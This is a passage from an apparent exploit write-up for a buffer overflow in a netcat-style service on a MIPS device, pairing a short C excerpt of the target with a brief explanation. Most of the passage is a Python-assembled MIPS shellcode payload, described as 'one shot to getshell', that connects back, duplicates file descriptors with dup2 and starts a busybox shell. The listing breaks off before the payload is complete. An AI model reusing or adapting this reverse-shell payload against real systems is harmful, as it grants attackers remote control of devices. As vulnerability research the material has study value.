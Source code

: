 ```c
					if (pledge("stdio unix", NULL) == -1)
						err(1, "pledge");
				}
				if (vflag)
					report_sock("Connection received",
					    (struct sockaddr *)&z, len,
					    family == AF_UNIX ? host : NULL);

				readwrite(s, NULL);
```

Because `recvfrom` has been called when the vulnerability was triggered by the first interaction, with the help of the existing [connect back shellcode](https://shell-storm.org/shellcode/files/shellcode-794.html), it's done by `execve` busybox after `dup2`. We should pay attention to the [format](https://www.anquanke.com/post/id/180252#h3-11) delivered to busybox. So one shot to getshell:

```python
        bof_payload += "\x3C\x1C\x00\x42"        # lui   $gp, 0x42
        bof_payload += "\x27\x9C\xB0\x30"        # addiu $gp, $gp, -0x4fd0
        bof_payload += "\x8F\x82\x80\xB8"        # la      $v0, server_sockfd
        bof_payload += "\x8C\x44\x00\x00"        # lw      $a0, (server_sockfd - 0x413134)($v0)  # fd
        bof_payload += "\x8F\x85\x80\xF4"        # lw $a1, -0x7f0c($gp)
        bof_payload += "\x24\x0c\xff\xef"        # li      t4,-17 ( addrlen = 16 )     
        bof_payload += "\x01\x80\x30\x27"        # nor     a2,t4,zero 
        bof_payload += "\x24\x02\x10\x4a"        # li      v0,4170 ( sys_connect ) 
        bof_payload += "\x01\x01\x01\x0c"        # syscall 0x40404

        bof_payload += "\x3C\x1C\x00\x42"        # lui   $gp, 0x42
        bof_payload += "\x27\x9C\xB0\x30"        # addiu $gp, $gp, -0x4fd0
        bof_payload += "\x8F\x82\x80\xB8"        # la      $v0, server_sockfd
        bof_payload += "\x8C\x44\x00\x00"        # lw      $a0, (server_sockfd - 0x413134)($v0)  # fd  

        bof_payload += "\x24\x0f\xff\xfd"        # li      t7,-3
        bof_payload += "\x01\xe0\x28\x27"        # nor     a1,t7,zero
        # bof_payload += "\x8f\xa4\xff\xff"        # lw      a0,-1(sp)
        bof_payload += "\x24\x02\x0f\xdf"        # li      v0,4063 ( sys_dup2 )
        bof_payload += "\x01\x01\x01\x0c"        # syscall 0x40404
        bof_payload += "\x20\xa5\xff\xff"        # addi    a1,a1,-1
        bof_payload += "\x24\x01\xff\xff"        # li      at,-1
        bof_payload += "\x14\xa1\xff\xfb"        # bne     a1,at, dup2_loop

        # execve /bin/busybox sh
        bof_payload += "\x28\x06\xFF\xFF"        # slti    $a2, $zero, -1
        bof_payload += "\x3C\x0F\x2F\x62"        # lui     $t7, 0x2f62
        bof_payload += "\x35\xEF\x69\x6E"        # ori     $t7, $t7, 0x696e
        bof_payload += "\xAF\xAF\xFF\xDC"        # sw      $t7, -0x24($sp)
        bof_payload += "\x3C\x0F\x2F\x62"        # lui     $t7, 0x2f62
        bof_payload += "\x35\xEF\x75\x73"        # ori     $t7, $t7, 0x7573
        bof_payload += "\xAF\xAF\xFF\xE0"        # sw      $t7, -0x20($sp)
        bof_payload += "\x3C\x0F\x79\x62"        # lui     $t7, 0x7962
        bof_payload += "\x35\xEF\x6F\x78"        # ori     $t7, $t7, 0x6f78
        bof_payload += "\xAF\xAF\xFF\xE4"        # sw      $t7, -0x1c($sp)
        bof_payload += "\xAF\xA0\xFF\xE8"        # sw      $zero, -0x18($sp)
        bof_payload += "\x3C\x0F\x73\x68"        # lui     $t7, 0x7368
        bof_payload += "\xAF\xAF\xFF\xEC"        # sw      $t7, -0x14($sp)
        bof_payload += "\xAF\xA0\xFF\xF0"        # sw      $zero, -0x10($sp)
        bof_payload += "\x27\xAF\xFF\xDC"        # addiu   $t7, $sp, -0x24
        bof_payload += "\xAF\xAF\xFF\xF4"        # sw      $t7, -0xc($sp)
        bof_payload += "\x27\xAF\xFF\xEC"        # addiu   $t7, $sp, -0x14
        bof_payload += "\xAF\xAF\xFF\xF8"        # sw      $t7, -8($sp)
        bof_payload += "\xAF\xA0\xFF\xFC"        # sw      $zero, -4($sp)
        bof_payload += "\x27\xA4\xFF\xDC"        # addiu   $a0, $sp, -0x24
```